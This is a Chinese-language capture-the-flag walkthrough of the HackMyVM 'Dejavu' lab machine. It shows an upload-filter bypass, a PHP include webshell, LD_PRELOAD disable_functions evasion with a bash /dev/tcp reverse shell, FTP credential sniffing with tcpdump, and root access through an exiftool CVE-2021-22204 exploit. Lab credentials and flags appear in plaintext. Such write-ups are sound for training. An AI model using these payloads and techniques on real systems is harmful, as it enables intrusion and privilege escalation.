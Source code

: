 # Dejavu

2025.02.11 https://hackmyvm.eu/machines/machine.php?vm=Dejavu

## Ip

192.168.5.39

## Scan

```
PORT   STATE SERVICE
22/tcp open  ssh
80/tcp open  http
```

访问 80 web ，gobuster 发现 http://192.168.5.39/info.php 是一个 phpinfo 页面，查看其源码，发现注释：/S3cR3t，访问后是一个文件上传页面 http://192.168.5.39/S3cR3t/upload.php

可能有任意文件上传漏洞，进行尝试，上传图片，发现上传后的图片出现在同目录 files 中 http://192.168.5.39/S3cR3t/files/1.png

发现上传后缀名为 php3、php4、php5、.htaccess 等都不行，但是 phtml 的后缀可以上传。在 http://192.168.5.39/info.php 中查看到 disable_functions 把基本的命令执行参数禁用了。

尝试将上传的内容改成 `<?php include($_GET[1]);?>` 发现可以执行 LFI，并且在 info.php 中显示了 info 文件的路径: `/var/www/html/.HowToEliminateTheTenMostCriticalInternetSecurityThreats/info.php`, 使用 filter 进行读取：

```
curl -O- http://192.168.5.39/S3cR3t/files/2.png.phtml?1=php://filter/read=convert.base64-encode/resource=/var/www/html/.HowToEliminateTheTenMostCriticalInternetSecurityThreats/info.php

# base64 解码后为
<html>
<body>
<!-- /S3cR3t -->
</body>
</html>
<?php
phpinfo();
?>
```

```
curl -o- http://192.168.5.39/S3cR3t/files/2.png.phtml?1=php://filter/read=convert.base64-encode/resource=/var/www/html/.HowToEliminateTheTenMostCriticalInternetSecurityThreats/S3cR3t/upload.php | base64 -d

<?php
  if(!empty($_FILES['uploaded_file']))
  {
    $path = "files/";
    $path = $path . basename( $_FILES['uploaded_file']['name']);
    $imageFileType = strtolower(pathinfo($path,PATHINFO_EXTENSION));
    $uploadOk = 1;
    // Allow certain file formats
    if($imageFileType != "jpg" && $imageFileType != "png" && $imageFileType != "jpeg" && $imageFileType != "gif" && $imageFileType != "txt" && $imageFileType != "phtml" && $imageFileType != "aspx") {
      echo nl2br("\nThis extension is not allowed.");
    $uploadOk = 0;
    }
    // Check if $uploadOk is set to 0 by an error
    if ($uploadOk == 0) {
      echo " Sorry, your file was not uploaded.";
    // if everything is ok, try to upload file
    } else {
      if(move_uploaded_file($_FILES['uploaded_file']['tmp_name'], $path)) {
        echo nl2br("\nThe file ".  basename( $_FILES['uploaded_file']['name']). " has been uploaded.");
      } else{
          echo "There was an error uploading the file, please try again!";
      }
    }
  }
?>
```

经过查询，发现未禁用 putenv 和 mail 函数，则可以利用 LD_PRELOAD 绕过 disable_functions，有现成的利用工具进行利用 https://github.com/kriss-u/chankro-py3 下载后执行:

```
echo '/bin/bash -i >& /dev/tcp/192.168.5.3/8888 0>&1' > 8888.sh
python3 chankro-py3-master/chankro.py --arch 64 --input 8888.sh --output shell.phtml --path /var/www/html
```

然后将生成的 shell.phtml 上传，在 kali 上建立 8888 监听，然后访问 http://192.168.5.39/S3cR3t/files/shell.phtml 就得到了反弹的链接:

```
<nMostCriticalInternetSecurityThreats/S3cR3t/files$ id
id
uid=33(www-data) gid=33(www-data) groups=33(www-data)
```

得到 shell 后，sudo -l 发现: (robert) NOPASSWD: /usr/sbin/tcpdump 尝试用它提权到 robert，但是不成功，出现报错：

```
COMMAND='/bin/bash';TF=$(mktemp);echo "$COMMAND" > $TF;chmod +x $TF
sudo -u robert /usr/sbin/tcpdump -ln -i lo -w /dev/null -W 1 -G 1 -z $TF
```

ss -tnlp 发现本地启用了 21 ftp，看看里面有什么，匿名无法登陆，同时在 robet 家目录下，发现一个 auth.sh 文件，但是无法查看其内容，看名字像是跟认证有关系，那就尝试用 tcpdump 监听下 21 端口，看看会不会有显示：

```
cd /tmp
tcpdump -i lo port ftp

几秒后显示：
FTP: USER robert
FTP: PASS 9737bo0hFx4
```

应该是一个定时任务，在一直访问 21 端口。使用得到的 robert 凭据，尝试登陆 ssh，看是否有密码复用的情况：

```
ssh robert@192.168.5.39 输入密码: 9737bo0hFx4
```

得到了 user flag：

```
robert@dejavu:~$ cat user.txt
HMV{c8b75037150fbdc49f6c941b72db0d7c}
```

这里 auth.sh 确实是定时在执行：

```
crontab -l
* *	* * *	/home/robert/auth.sh

robert@dejavu:~$ cat auth.sh
ftp -n localhost <<FIN
quote USER robert
quote PASS 9737bo0hFx4
bye
FIN
```

sudo -l 发现: (root) NOPASSWD: /usr/local/bin/exiftool GTFOBin 中显示可以读取文件，但是不知道 root 目录中的 root.txt 的具体名字，下面的读取方法不对：

```
sudo exiftool -filename=/tmp/root.txt /root/root.txt
```

搜索 exiftool 有没有其他的漏洞可以利用，找到 https://github.com/convisolabs/CVE-2021-22204-exiftool 下载其中的 python 脚本 https://github.com/convisolabs/CVE-2021-22204-exiftool/blob/master/exploit.py 到目标机器上，然后修改其中的 Ip 和 port 为 kali 上的监听端口，然后执行：

```
cd /tmp
python3 exp.py
sudo exiftool -u root exiftool ./exploit.djvu
```

在反弹的链接上得到了 root 权限：

```
# cat r0ot.tXt
HMV{c62d75d636f66450980dca2c4a3457d8}
```
